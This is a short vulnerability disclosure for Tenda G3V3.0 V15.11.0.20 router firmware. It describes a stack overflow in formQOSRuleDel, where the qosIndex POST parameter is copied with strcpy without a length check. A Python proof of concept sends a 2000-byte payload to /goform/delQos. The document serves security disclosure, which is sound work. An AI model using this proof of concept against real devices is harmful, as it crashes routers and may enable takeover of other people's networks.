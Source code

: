 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3369.html

## Affected version

G3V3.0 V15.11.0.20

## Vulnerability details

The Tenda G3V3.0 V15.11.0.20 firmware has a stack overflow vulnerability in the `formQOSRuleDel` function. The `indexSet` variable receives the `qosIndex` parameter from a POST request and is directly assigned to `strcpy`. However, since the user can control the input of `qosIndex `, the statement`strcpy((char *)&input, (const char *)indexSet);` can cause a buffer overflow. The user-provided  `qosIndex` can exceed the capacity of the `input` array, triggering this security vulnerability.

![image-20240417100646839](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417100646839.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/delQos"
payload = b"a"*2000

data = {
        'qosIndex':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

